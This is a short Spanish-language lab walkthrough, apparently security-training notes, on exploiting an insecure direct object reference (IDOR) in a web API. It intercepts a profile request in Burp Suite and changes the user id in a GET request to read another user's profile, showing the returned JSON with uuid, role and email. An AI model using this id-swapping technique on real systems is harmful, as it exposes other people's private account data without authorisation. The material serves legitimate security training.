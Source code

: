 # Laboratorio: IDOR in Insecure API's

1. Visitamos la web 

<p align="center">
    <img src="./assets/03-Mass_IDOR/01-Web.PNG" width=400>
</p>

---

2. Ahora nos dirigimos a la parte de **`Edit Profile`**, damos clic en **`Update Profile`** e interceptamos la petición con **`Burp Suite`**

<p align="center">
    <img src="./assets/05-IDOR_API/01-Burpsuite.PNG" width=500>
</p>

* Los métodos HTTP son:
  * **GET:** Usado para conseguir información.
  * **POST:** Usado para crear un registro.
  * **PUT:** Actualizar.
  * **DELETE:** Eliminar.

---

3. Con lo anterior en mente, si queremos leer información de otro **usuario**, usaremos el método **`GET`** 

* **Método:** `GET /profile/api.php/profile/5 HTTP/1.1`
  * Usamos `GET` para leer información.
  * Colocamos el **id** `5` ya que queremos leer el **`uuid`** de este usuario.
  * El resto de la petición se mantiene igual.

* **Output**
```json
{
    "uid":"5",
    "uuid":"eb4fe264c10eb7a528b047aa983a4829",
    "role":"employee",
    "full_name":"Callahan Woodhams",
    "email":"c_woodhams@employees.htb",
    "about":"I don't like quoting others!"
}
```